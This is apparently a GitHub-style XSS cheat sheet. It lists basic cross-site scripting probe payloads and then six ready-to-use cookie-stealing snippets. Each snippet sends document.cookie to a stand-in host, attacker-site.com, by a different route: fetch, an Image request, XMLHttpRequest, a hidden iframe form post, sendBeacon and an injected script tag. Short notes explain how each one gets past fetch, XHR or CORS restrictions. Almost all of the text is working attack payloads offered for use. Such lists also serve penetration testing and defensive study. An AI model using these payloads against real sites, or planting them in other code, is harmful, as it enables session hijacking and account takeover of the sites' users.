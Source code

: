 ## XSS

![XSS-variants](https://github.com/user-attachments/assets/0f908703-6b48-4424-acb2-7487e776765d)

### Basics:
```
<script>alert(1)</script>
javascript:alert(1)
"onmouseover="alert(1)
\'-alert(1)//
<svg/onload=prompt(1337);>
```

### Obtain cookies or tokens:

#### Sending cookies to an external server via fetch
```
fetch('https://attacker-site.com/steal-cookies?cookie=' + encodeURIComponent(document.cookie));
```

#### Using the Image object to transfer cookies (workaround)
```
let img = new Image();
img.src = 'https://attacker-site.com/log?cookie=' + encodeURIComponent(document.cookie);
```
- Bypassing security policies that block data transfer via "Fetch"

#### XMLHttpRequest with sending cookies in a GET or POST request
```
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://attacker-site.com/steal?cookie=' + encodeURIComponent(document.cookie), true);
xhr.send();
```
- support for XMLHttpRequest, but fetch may be blocked

#### Using the form to transfer cookies through a hidden iframe
```
<iframe style="display:none;" name="steal-frame"></iframe>
<form action="https://attacker-site.com/log" method="POST" target="steal-frame">
    <input type="hidden" name="cookie" value="<script>document.cookie</script>">
</form>
<script>document.forms[0].submit();</script>
```
- Bypassing restrictions for XHR and CORS; invisible to the user

#### navigator.sendBeacon to transfer cookies to the backend
```
navigator.sendBeacon('https://attacker-site.com/steal-cookies', 'cookie=' + encodeURIComponent(document.cookie));
```
- Optimized for actions that are performed before closing the page; bypasses some policies that block other transfer methods

#### Inserting a call into the event handler (onload, onerror) through dynamically created elements
```
let script = document.createElement('script');
script.src = 'https://attacker-site.com/steal?cookie=' + encodeURIComponent(document.cookie);
document.body.appendChild(script);
```

